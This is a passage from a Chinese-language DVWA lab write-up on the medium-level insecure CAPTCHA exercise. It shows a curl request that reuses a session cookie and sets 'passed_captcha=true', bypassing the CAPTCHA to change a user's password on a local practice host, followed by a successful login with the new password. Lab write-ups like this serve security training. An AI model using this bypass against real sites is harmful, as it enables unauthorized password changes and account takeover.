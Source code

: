 ```json
step=2,
Change=Change
```

直接將此 request 複製成 curl ，填入其他密碼測試看看直接送有沒有效

關鍵就是要取得驗證 CAPTCHA 後的 cookie 內的 `PHPSESSIONID` ．再重送給後端就能修改密碼

```bash
curl -L -X POST "http://dvwa.localtest/vulnerabilities/captcha/#" \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'Origin: http://dvwa.localtest' \
-H 'DNT: 1' \
-H 'Connection: keep-alive' \
-H 'Referer: http://dvwa.localtest/vulnerabilities/captcha/' \
-H 'Cookie: PHPSESSID=2d7pjcupfh347g4n5apfl1k4o6; security=medium' \
-H 'Upgrade-Insecure-Requests: 1' \
--data-raw 'step=2&password_new=3333&password_conf=3333&passed_captcha=true&Change=Change'
```

送出 curl 後可以看到 `Password Changed`

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2048.png)

### Done

用新密碼 3333 重登成功

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2049.png)
